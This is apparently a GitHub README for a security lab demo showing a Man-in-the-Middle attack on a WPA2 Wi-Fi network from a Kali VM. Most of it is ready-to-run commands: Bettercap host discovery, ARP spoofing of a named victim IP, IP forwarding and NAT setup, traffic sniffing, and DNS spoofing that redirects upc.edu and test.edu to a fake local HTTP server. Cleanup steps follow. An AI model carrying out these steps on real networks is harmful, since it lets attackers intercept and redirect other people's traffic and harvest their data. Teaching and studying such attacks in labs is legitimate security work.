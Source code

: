 # Man in the Middle (MitM)

This demo shows how to achieve a successful Man-in-the-Middle attack leveraging ARP Spoofing in a WIFI WPA2 network.

This Demo is a continuation of [WIFICracking](../WIFICracking/README.md) demo. Your Kali Network has to be connected to the network to intercept the traffic of our victim

## Attack!

1. First, connect the Kali VM to the target network

```bash
sudo nmtui # Use the network manager
sudo ip link set eth0 down # Disable Eth0

ping google.es # make sure you are connected to the network
```

2. Start Bettercap and perform a network probe to find potential targets

```bash
sudo bettercap --iface wlan0

> net.probe on
> net.show
```

![](./img/scan_cap.png)

3. We found our target! `192.168.254.102`, now we will perform an ARP Spoofing, but before we need to configure Kali VM to forward requests to the gateway comming from our target. Otherwise, our victim will lack from internet connectivity

> Run the following commands in a new shell

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
```

4. Configure and start the ARP Spoofing with bettercap

```bash
> set arp.spoof.targets 192.168.254.102
> arp.spoof on
```

5. Start sniffing the traffic to verify the MitM attack is successful

```bash
> set net.sniff.verbose false
> net.sniff on
```

![](./img/arpsoof.png)

6. Now, let's have some fun :) Using DNS Spoofing we will redirect our victim queries to a local http service hosted in our Kali VM

7. Start the HTTP Server with Python in a new shell

```bash
cd server
python3 -m http.server 80 --bind 0.0.0.0
``` 

8. Configure and start the dns spoofing agent

```bash
set dns.spoof.domains upc.edu,test.edu
set dns.spoof.addresses 192.168.254.186 # IP Kali VM
dns.spoof on
```

![](./img/dnsspoof.png)

> Bettercap reports fake dns responses are being generated whenever the victim browse to one off the spoofed domains. Redirecting the query to the local HTTP service

![](./img/fakeservice.jpeg)


## Cleanup

* Remove the routing rules

```bash
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -D POSTROUTING -o wlan0 -j MASQUERADE
```

* Restore internet connectivity

```bash
sudo ip link set eth0 up
```